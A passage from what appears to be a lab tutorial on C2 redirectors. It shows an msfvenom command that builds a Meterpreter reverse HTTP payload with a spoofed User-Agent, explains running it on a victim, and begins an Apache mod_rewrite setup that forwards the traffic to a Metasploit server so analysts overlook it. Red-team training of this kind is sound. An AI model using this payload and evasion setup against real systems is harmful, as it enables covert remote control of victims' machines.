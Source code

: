 ```shell-session
  systemctl restart apache2
Enabling module headers.
To activate the new configuration, you need to run:
  systemctl restart apache2

● apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; disabled; vendor preset: disabled)
     Active: active (running) since Thu 2022-02-10 23:17:08 EST; 7ms ago
       Docs: https://httpd.apache.org/docs/2.4/
    Process: 4149 ExecStart=/usr/sbin/apachectl start (code=exited, status=0/SUCCESS)
   Main PID: 4153 (apache2)
      Tasks: 1 (limit: 19072)
     Memory: 6.0M
        CPU: 19ms
     CGroup: /system.slice/apache2.service
             └─4153 /usr/sbin/apache2 -k start
```

Using Meterpreter, we have the ability to configure various aspects of the HTTP Request, for example, the User-Agent. It is very common for a threat actor to make a slight adjustment to the User-Agent in their C2 HTTP/HTTPS payloads. It's in every HTTP request, and they all more or less look the same, and there is a very good chance a security analyst may overlook a modified user agent string. For this demonstration, we will generate a Meterpreter Reverse HTTP payload using MSFvenom; then we will inspect the HTTP request in Wireshark.&#x20;

**Generating a Payload with Modified Headers -**

Generating a ModifiedHTTPPayload withMeterpreter

```shell-session
root@kali$ msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 454 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

After generating the modified executable and transferring it to a victim, open up Wireshark on your host and use the `HTTP` filter to only view HTTP requests. After it's started capturing packets, execute the binary on the victim system. You will notice an HTTP request come in with our modified User-Agent.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/b842ee1430892fa04c092531b9383f4f.png)

_Packet Capture of the modified HTTP Payload with Meterpreter_

Now that we have a field we can control in the HTTP Request, let's create an Apache2 mod\_rewrite rule that filters on the user agent "NotMeterpreter" and forward it to our Metasploit C2 Server.

Modifying the Apache Config File -&#x20;

This section may sound intimidating but is actually quite easy; we will be taking the default Apache config and modifying it to our advantage. On Debian based systems, the default config can be found at `/etc/apache2/sites-available/000-default.conf`.
